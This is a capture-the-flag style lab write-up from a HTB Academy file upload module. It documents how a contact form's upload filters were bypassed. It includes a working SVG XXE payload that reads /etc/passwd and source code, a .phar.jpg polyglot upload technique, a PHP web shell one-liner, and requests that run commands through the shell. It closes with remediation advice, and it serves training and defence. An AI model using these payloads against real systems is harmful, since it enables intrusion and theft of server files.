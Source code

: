 # HTB Academy Skill Assessment Write-Up

**Module:** File Upload Attacks  
**Scenario:** Vulnerability Assessment of a Contact Form Endpoint  
**Author:** Jordan Davis

---

## 🧠 Scenario Summary

The assessment targeted a file upload vulnerability in a contact form on a web application running **Nginx**. The goal was to identify a bypass to upload and execute a PHP web shell, ultimately leading to full remote command execution and flag retrieval.

---

## 🔎 Initial Recon & Setup

- Accessed the `/contact` form on the web app.
- Configured Burp Suite proxy through Firefox to intercept requests.
- Uploaded a `.jpg` file and intercepted the request.

Captured GET request:

```
GET /contact/submit.php?Name=Frank&Email=Castle%40test.com&Message=MARIA&uploadFile=decoy.jpg HTTP/1.1
```

---

## 🐱‍💻 Initial Fuzzing Attempts

### 🔁 1. Content-Type Header Fuzzing

- Used **Burp Intruder** to fuzz the `Content-Type` header with variants like:
  - `image/gif`, `image/jpeg`, `image/png`
  - Leading GIF magic byte + PHP web shell
  - Result: **"Only images are allowed"** response

This suggested both **extension**, **content-type**, and **magic bytes** were inspected.

---

## 💣 SVG XXE Attempt

Tried the following payload with SVG hoping the parser treats it as valid image:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

**Result:** Successful response for `image/svg+xml`, showing `/etc/passwd` output.  
However, could not enumerate flag due to unknown filename.

---

## 📁 Accepted Extensions Fuzzing

Discovered via fuzzing that the following extensions were accepted:

- `.php.jpg`
- `.phps.jpg`
- `.phar.jpg`
- `.phtml.jpg`

Tried POST uploads with valid extensions, content-types, and altered magic bytes — all failed due to inspection logic.

---

## 🔍 Source Code Disclosure via XXE

Used previous XXE method to read the `upload.php` source code. Key findings:

```php
// Blacklist filter
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) die("Extension not allowed");

// Whitelist filter
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) die("Only images are allowed");

// MIME/content type checks
foreach (array($contentType, $MIMEtype) as $type)
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) die("Only images are allowed");
```

✅ Confirmed constraints:

- File extension must be lowercase and end in **"g"**
- MIME type must be **image/** with 2–3 lowercase letters ending in **"g"**
- **Magic bytes** are verified — not just headers!

---

## 🛠️ Successful Upload & Web Shell

Steps to bypass filters:

1. Used valid `.phar.jpg` extension (not blacklisted)
2. Intercepted upload request and **appended web shell** to a real image payload
3. Retained original magic bytes and content-type
4. Uploaded successfully

**Web Shell:**

```php
<?php system($_REQUEST[0]); ?>
```

---

## 📂 Locating the Shell

From source:

```php
$target_dir = "./user_feedback_submissions/";
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
```

URL constructed:

```
/contact/user_feedback_submissions/250803_shell.phar.jpg?cmd=ls ../../../../../
```

Confirmed file upload. Located flag and executed:

```
?cmd=cat ../../../../../flag********.txt
```

✅ **Flag successfully retrieved**

---

## 🧱 Challenges Faced

- Misjudged filter logic and wasted time fuzzing non-matching combinations
- Early correct guesses failed due to payload formatting
- Encoding issues (e.g., uppercase/lowercase shell corruption)
- Delay due to date format mismatch for filename

---

## 🛡️ Security Issues & Remediation

### 🔥 Vulnerabilities

- XXE file disclosure via SVG uploads
- Insufficient file extension and MIME filtering
- Upload directory executable by web server
- Source code exposure leading to reverse-engineering of filters

### 🧯 Recommendations

- Implement **allowlist-based MIME and extension checks** (use server-side verification)
- Block **double extensions** (`.php.jpg`) with stronger regex
- Disable execution from upload directories
- Use **file content-type validation** (e.g., `finfo_file()` in PHP)
- Use **prepared filenames** and store them outside web root
- Implement **WAF / ModSecurity** to detect upload bypass patterns

---

## ✅ Summary

Despite layered filters, a bypass was discovered using a hybrid of real image magic bytes and a sneaky web shell inside a `.phar.jpg` file. This underscores the importance of **layered validation**, **execution restrictions**, and secure code practices.
